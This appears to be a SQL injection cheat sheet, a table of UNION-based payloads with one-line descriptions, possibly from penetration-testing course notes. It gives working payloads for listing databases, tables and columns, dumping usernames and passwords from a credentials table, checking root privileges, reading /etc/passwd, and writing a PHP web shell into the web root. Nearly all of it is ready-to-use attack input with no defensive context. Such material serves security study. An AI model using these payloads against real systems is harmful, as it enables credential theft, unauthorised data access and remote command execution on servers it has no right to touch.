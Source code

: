 |cn' UNION select 1,database(),2,3-- -|Current database name|
|cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -|List all databases|
|cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -|List all tables in a specific database|
|cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -|List all columns in a specific table|
|cn' UNION select 1, username, password, 4 from dev.credentials-- -|Dump data from a table in another database|
|Privileges||
|cn' UNION SELECT 1, user(), 3, 4-- -|Find current user|
|cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -|Find if user has admin privileges|
|cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -|Find if all user privileges|
|cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -|Find which directories can be accessed through MySQL|
|File Injection||
|cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -|Read local file|
|select 'file written successfully!' into outfile '/var/www/html/proof.txt'|Write a string to a local file|
|cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -|Write a web shell into the base web directory|